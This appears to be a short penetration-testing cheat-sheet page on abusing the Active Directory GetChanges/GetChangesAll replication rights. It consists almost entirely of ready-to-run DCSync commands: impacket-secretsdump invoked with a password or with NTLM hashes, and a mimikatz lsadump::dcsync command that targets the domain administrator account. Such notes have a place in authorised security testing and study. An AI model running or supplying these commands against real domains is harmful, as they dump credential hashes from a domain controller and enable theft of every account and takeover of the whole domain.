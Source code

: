 ```yaml
---
title: "GetChanges/GetChangesAll"
date: 2024-7-9
tags: ["GetChanges", "GetChangesAll", "dcsync", "secretsdump", "active driectory", "ad", "Windows"]
---
```


---
#### Abuse #1: DCSync Attack (From Linux)

```bash
# With creds
impacket-secretsdump -just-dc <USER>:<PASSWORD>@<TARGET>
```

```bash
# With hashes
impacket-secretsdump -hashes <LM>:<NT> -just-dc <DOMAIN>/<USER>@<TARGET>
```

#### Abuse #1: DCSync Attack (From Windows)

```powershell
.\mimikatz.exe 'lsadump::dcsync /domain:<DOMAIN> /user:administrator' exit
```

<br>